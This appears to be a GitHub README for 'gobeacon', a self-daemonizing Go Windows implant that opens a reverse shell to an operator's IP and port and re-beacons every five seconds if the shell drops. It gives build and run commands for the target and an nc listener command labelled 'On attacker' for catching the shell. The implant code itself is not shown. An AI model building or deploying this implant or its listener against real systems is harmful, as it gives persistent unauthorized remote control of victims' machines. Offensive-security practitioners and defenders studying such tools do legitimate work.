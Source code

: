 # gobeacon
A small beaconing windows implant that daemonizes itself (it's golang...) and calls out to the user. If the shell dies, the implant beacons again in 5 seconds.

## Compilation
```go
go build gobeacon.go
```

## Usage:
```go
./gobeacon start <IP> <PORT>
```

## Example
On target:
```
./gobeacon start 127.0.0.1 9001
```
On attacker:
```sh
rlwrap nc -lvnp 9001
```

To stop the beacon:
```
./gobeacon stop 127.0.0.1 9001
```
OR
From inside the shell
```
beacon> exit
```
### Creds
Creds to this blogpost where I ripped the daemonization code from: https://socketloop.com/tutorials/golang-daemonizing-a-simple-web-server-process-example

